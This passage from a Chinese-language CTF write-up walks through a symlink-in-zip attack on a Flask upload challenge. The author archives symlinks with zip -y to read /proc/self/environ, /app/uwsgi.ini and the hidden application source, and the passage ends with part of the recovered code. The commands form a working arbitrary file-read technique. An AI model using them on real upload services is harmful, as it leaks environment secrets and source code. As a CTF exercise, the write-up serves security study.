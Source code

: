 我们还是用第一种办法吧，将得到的passwd.zip进行上传，我们得到正常回显

![image-20241119161952965](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191619041.png)

### 读取/proc/self/environ

我们查看环境变量

```
ln -s /proc/self/environ en
zip -y en.zip en
```

将得到的en.zip进行上传

![读取/app/uwsgi.ini](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191621356.png)

### 读取/app/uwsgi.ini

注意`DUWSGI_INI=/app/uwsgi.ini`

> uWSGI是一个Web服务器，它实现了WSGI协议、uwsgi、http等协议。Nginx中HttpUwsgiModule的作用是与uWSGI服务器进行交换。WSGI是一种Web服务器网关接口。它是一个Web服务器（如nginx，uWSGI等服务器）与web应用（如用Flask框架写的程序）通信的一种规范。
> 
>

接下来我们来读取/app/uwsgi.ini

```
ln -s /app/uwsgi.ini us
zip -y us.zip us
```

我们提交us.zip

![image-20241119162540494](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411191625530.png)

看wp说buu的环境有点问题，正常的/app/uwsgi.ini应该回显

```
module=/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py
```

读取module=/app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py得到源文件

```
ln -s /app/hard_t0_guess_n9f5a95b5ku9fg/hard_t0_guess_also_df45v48ytj9_main.py a
zip -y a.zip a
```

得到源码

```python
# -*- coding: utf-8 -*-
from flask import Flask,session,render_template,redirect, url_for, escape, request,Response
import uuid
import base64
import random
import flag
from werkzeug.utils import secure_filename
import os
random.seed(uuid.getnode())
app = Flask(__name__)
app.config['SECRET_KEY'] = str(random.random()*100)
app.config['UPLOAD_FOLDER'] = './uploads'
app.config['MAX_CONTENT_LENGTH'] = 100 * 1024
ALLOWED_EXTENSIONS = set(['zip'])

def allowed_file(filename):
    return '.' in filename and \
           filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
```